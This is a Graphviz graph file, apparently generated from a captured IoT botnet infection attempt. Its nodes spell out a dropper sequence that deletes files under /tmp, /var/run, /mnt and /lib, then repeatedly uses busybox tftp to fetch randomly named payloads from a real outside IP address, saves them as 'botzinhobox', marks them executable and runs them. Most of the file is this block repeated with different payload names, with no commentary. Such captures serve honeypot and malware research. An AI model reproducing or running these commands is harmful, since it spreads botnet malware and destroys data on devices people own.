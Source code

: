 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 32 [label="||,"];
32 [label="busybox tftp -r FatGGei -g 117.236.240.35 "];
32 -> 34 [label=";,"];
34 [label="cat FatGGei botzinhobox "];
34 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 70 [label="||,"];
70 [label="busybox tftp -r GORdLx -g 117.236.240.35 "];
70 -> 72 [label=";,"];
72 [label="cat GORdLx botzinhobox "];
72 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 108 [label="||,"];
108 [label="busybox tftp -r NiwuahT -g 117.236.240.35 "];
108 -> 110 [label=";,"];
110 [label="cat NiwuahT botzinhobox "];
110 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 146 [label="||,"];
146 [label="busybox tftp -r Aboaniad -g 117.236.240.35 "];
146 -> 148 [label=";,"];
148 [label="cat Aboaniad botzinhobox "];
148 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 184 [label="||,"];
184 [label="busybox tftp -r yXzloA -g 117.236.240.35 "];
184 -> 186 [label=";,"];
186 [label="cat yXzloA botzinhobox "];
186 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 222 [label="||,"];
222 [label="busybox tftp -r YEUAxmakiO -g 117.236.240.35 "];
222 -> 224 [label=";,"];
224 [label="cat YEUAxmakiO botzinhobox "];
224 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 260 [label="||,"];
260 [label="busybox tftp -r NianhaoO -g 117.236.240.35 "];
260 -> 262 [label=";,"];
262 [label="cat NianhaoO botzinhobox "];
262 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 298 [label="||,"];
298 [label="busybox tftp -r LoytA -g 117.236.240.35 "];
298 -> 300 [label=";,"];
300 [label="cat LoytA botzinhobox "];
300 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 336 [label="||,"];
336 [label="busybox tftp -r BamOaZ -g 117.236.240.35 "];
336 -> 338 [label=";,"];
338 [label="cat BamOaZ botzinhobox "];
338 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 374 [label="||,"];
374 [label="busybox tftp -r YtenZjs -g 117.236.240.35 "];
374 -> 376 [label=";,"];
376 [label="cat YtenZjs botzinhobox "];
376 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 412 [label="||,"];
412 [label="busybox tftp -r Akasters -g 117.236.240.35 "];
412 -> 414 [label=";,"];
414 [label="cat Akasters botzinhobox "];
414 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 450 [label="||,"];
450 [label="busybox tftp -r Al7una -g 117.236.240.35 "];
450 -> 452 [label=";,"];
452 [label="cat Al7una botzinhobox "];
452 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
495 [label="./botzinhobox "];
495 -> 478 [label=";,"];
478 [label="cd /tmp "];
478 -> 478
462 [label="cd /var/system "];
462 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 466 [label="||,"];
466 [label="cd /lib "];
466 -> 468 [label="||,"];
468 [label="rm -f /tmp/* "];
468 -> 470 [label=";,"];
470 [label="/var/run/* "];
470 -> 472 [label="||,"];
472 [label="/var/system/* "];
472 -> 474 [label="||,"];
474 [label="/mnt/* "];
474 -> 476 [label="||,"];
476 [label="/lib/* "];
476 -> 478 [label="||,"];
478 [label="cd /tmp "];
478 -> 480 [label=";,"];
480 [label="cd /var/run "];
480 -> 482 [label="||,"];
482 [label="cd /mnt "];
482 -> 484 [label="||,"];
484 [label="cd /root "];
484 -> 486 [label="||,"];
486 [label="cd / "];
486 -> 488 [label="||,"];
488 [label="busybox tftp -r Ney6saA -g 117.236.240.35 "];
488 -> 490 [label=";,"];
490 [label="cat Ney6saA botzinhobox "];
490 -> 492 [label=";,"];
492 [label="botzinhobox "];
492 -> 492
494 [label="chmod +x * "];
494 -> 495 [label=";,"];
}
